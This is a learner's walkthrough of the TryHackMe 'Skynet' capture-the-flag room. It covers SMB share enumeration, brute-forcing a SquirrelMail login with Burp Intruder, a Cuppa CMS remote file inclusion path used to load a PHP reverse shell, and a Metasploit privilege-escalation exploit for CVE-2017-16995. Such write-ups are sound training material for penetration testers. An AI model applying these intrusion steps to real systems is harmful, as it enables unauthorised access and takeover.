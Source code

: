 <h1>TryHackMe Skynet CTF</h1>

<h2>Overview</h2>
I’ve been studying for the eLearnSecurity Junior Penetration Tester (eJPTv2) Certification and recently completed INE’s lessons on SMB Enumeration. To supplement and practice what I learned, I searched TryHackMe for rooms that are tagged with SMB or samba and found Skynet! This was a fun Terminator themed CTF challenge that took me three or four hours to complete. I am glad I took notes throughout the process, so I could continue where I left off after taking breaks.
<br />

<h2>Tools Used</h2>

- <b>Nmap</b> 
- <b>Smbclient</b>
- <b>Hydra</b>
- <b>Gobuster</b>
- <b>Burp Suite/Burp Intruder</b>
- <b>MSFvenom Payload Creator</b>
- <b>Python’s http.server module</b>
- <b>Metasploit</b>
- <b>Linpeas</b>

<h2>My journey through Skynet:</h2>

There are five tasks to complete in this module:
1.	What is Miles password for his emails?
2.	What is the hidden directory?
3.	What is the vulnerability called when you can include a remote file for malicious purposes?
4.	What is the user flag?
5.	What is the root flag?

***
<b>Port scanning and SMB Enumeration with Nmap</b>
***

I used Nmap to identify open ports on the target machine. By default, Nmap scans the 1000 most frequently used ports. I also used the -sV option so that Nmap would attempt to identify the services running on any discovered port.

```
┌──(root㉿kali)-[~]
└─# nmap -sV 10.10.71.63
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-20 15:20 UTC
Nmap scan report for ip-10-10-71-63.eu-west-1.compute.internal (10.10.71.63)
Host is up (0.011s latency).
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
110/tcp open  pop3        Dovecot pop3d
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 02:48:CA:C0:AC:F9 (Unknown)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.66 seconds </blockquote>
```

Port 80 tells me there is likely a website being hosted. But a quick look shows there is not much to see on this homepage. The source code did not reveal much, either.
<br />
<img src="https://i.imgur.com/6fdt0Sc.png" height="80%" width="80%" alt="SkyNet HomePage"/>
<br />

Port 445 shows there may be SMB shares to explore. I used Nmap again with the smb-enum-shares script to see what I could find:

```
┌──(root㉿kali)-[~]
└─# nmap 10.10.71.63 -p 139,445 --script smb-enum-shares
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-20 15:31 UTC
Nmap scan report for ip-10-10-71-63.eu-west-1.compute.internal (10.10.71.63)
Host is up (0.00024s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 02:48:CA:C0:AC:F9 (Unknown)

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.71.63\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (skynet server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.71.63\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: Skynet Anonymous Share
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\srv\samba
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.71.63\milesdyson: 
|     Type: STYPE_DISKTREE
|     Comment: Miles Dyson Personal Share
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\milesdyson\share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.71.63\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

Nmap done: 1 IP address (1 host up) scanned in 0.89 seconds
```
<br />

***
<b>Exploring shares with SMBclient</b><br />
***
The results from the script tells me that a NULL user can connect to anonymous. From here I used the Smbclient to connect, browse, and download files from the share. I found an interesting file with the name “attention.txt.”

<br />
<img src="https://i.imgur.com/CwpAVNm.png" height="80%" width="80%" alt="Exploring with SMBClient"/>
<br />
This file contained the following clue:<br />

```
┌──(root㉿kali)-[~]
└─# cat attention.txt 
A recent system malfunction has caused various passwords to be changed. All skynet employees are 
required to change their password after seeing this.
-Miles Dyson
```
<br />
Another notable file was located in the "logs" folder, which appeared to be a list of passwords:
<br />
<img src="https://i.imgur.com/TfJhs5I.png" height="80%" width="80%" alt="Log1.txt File"/>
<br />

I attempted to use the login cracker program Hydra to see if any of those passwords matched the milesdyson share. Unfortunately, this did not work.
<br />
<img src="https://i.imgur.com/dCptaBr.png" height="80%" width="80%" alt="Hydra results"/>
<br />

***
<b>Digging into GoBuster and the website</b><br />
***
Gobuster uses wordlists to brute-force directories, files, and subdomains. I used Gobuster to enumerate the target website:
<br />
<img src="https://i.imgur.com/Wguoz1r.png" height="80%" width="80%" alt="Enumerating with Gobuster"/>
<br />
<br />
The directories admin, ai, and config led nowhere. However, Squirrelmail looked promising as it led to a login page. From here, I used Burp Suite which provides numerous tools for web application testing. The Burp Intruder tool was used to send the same HTTP request over and over again using milesdyson as the login, and the list passwords from log1.txt inserted into the password field.

<br />
<img src="https://i.imgur.com/Bu9rrjq.png" alt="Burp Suite"/>
<br />
<br />
One of the passwords generated a status of 300. All of the other passwords resulted in a status of 200. The one that was different is likely the valid password.
<br />
<img src="https://i.imgur.com/l2gqZDh.png" height="80%" width="80%" alt="Burp Intruder"/>
<br />
<br />
<b>We're in!!</b> I completed the first challenge task of discovering Miles’ email password!
<br />
<br />
<img src="https://i.imgur.com/q4mTmcH.png" height="80%" width="80%" alt="Burp Intruder"/>
<br />
<br />

I opened the email with the subject “Samba Password reset.” This contained a password for the milesdyson share. I then used Smbclient to access this share and located a “notes” folder, which contained a file names “important.txt.”

```
┌──(root㉿kali)-[~]
└─# cat important.txt 

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

This pointed to the hidden folder which was Miles’ homepage and was answer to the second challenge task.
<br />
<br />
<img src="https://i.imgur.com/Ly3n6ZD.png" height="80%" width="80%" alt="Miles Dyson Homepage"/>
<br />  
<br />
***
Gaining further access
***
Gobuster came in handy once again. This time I used it to enumerate other directories within the hidden folder, which pointed to an administrator page:
<br />
<img src="https://i.imgur.com/tryXcBh.png" height="80%" width="80%" alt="Gobuster 2 Results"/>
<br />  
<br />
This administrator page led to a Cuppa CMS login:
<br />
<img src="https://i.imgur.com/pDX4py8.png" height="80%" width="80%" alt="Cuppa CMS Login"/>
<br />  
<br />
I tried Burp Suite with Intruder to see if the same log1.txt password list would provide access. Unfortunately, this produced no results.

A Google search helped me find a remote file inclusion vulnerability associated with Cuppa CMS: https://www.exploit-db.com/exploits/25971

Remote file inclusion would allow me to execute remote code on the target webserver, and is the answer to the third challenge task. To get this to work, I needed to create a reverse PHP shell and host it via a web server. To execute the code, I could append “/alerts/alertConfigField.php?urlConfig=url_containing_reverseshell” to the end of the administrator page.  

To create the PHP reverse shell, I used MSFvenom Payload Creator (MSFPC). MSFPC is included in Kali Linux and it simplifies the process of creating a reverse shell payload. It also creates a customized Metasploit handler.
<br />
<br />
<img src="https://i.imgur.com/sz8Vvu0.png" height="80%" width="80%" alt="MSFVenom"/>
<br />  
<br />
I used Python’s http.server module to host the PHP reverse shell on my machine. Then, I started the MSF handler using the one created by MSFPC. I opened the URL and executed the code. The MSF handler was listening and created a Meterpreter session which I used to explore the target machine. The user flag for challenge task four was located in the /home/milesdyson folder:
<br />
<br />
<img src="https://i.imgur.com/00zol8h.png" height="80%" width="80%" alt="User Flag"/>
<br />  
<br />
I could not access the root folder with this session and needed to find a way to escalate my privileges. I used Meterpreter to upload Linpeas.sh to the /tmp folder. Linpeas is a script that runs on the target Linux machine and searches for ways to escalate privileges. After running Linpeas, I discovered a number of possible exploits that may allow access to root.
<br />
<br />
<img src="https://i.imgur.com/mqDGhoz.png" height="80%" width="80%" alt="LinPeas"/>
<br />  
<br />
Within MSFconsole, I searched for the first vulnerabilities related to “CVE-2017-16995” and found a potential exploit: 
<b>exploit/linux/local/bpf_sign_extension_priv_esc</b>

After running this exploit, I had a new Meterpreter session with root privileges. 
<br />
<br />
<img src="https://i.imgur.com/0Hxdkdn.png" height="80%" width="80%" alt="GotRoot"/>
<br />  
<br />

I found the root flag and completed the fifth and final challenge task!!
<br />
<br />
<img src="https://i.imgur.com/v8AeFpg.png" height="80%" width="80%" alt="Root Flag"/>
<br />  
<br />

<h2>Final Thoughts</h2>
Although, this is considered an “easy” TryHackMe room, this was still a challenging set of tasks for me. I was glad for the opportunity to explore SMB shares and also to practice Linux privilege escalation. I had a few stops and starts with this one and needed to take a few breaks, which you can see by how often the IP addresses change in my screenshots. All in all, I had a lot of fun, and look forward to the next challenge.
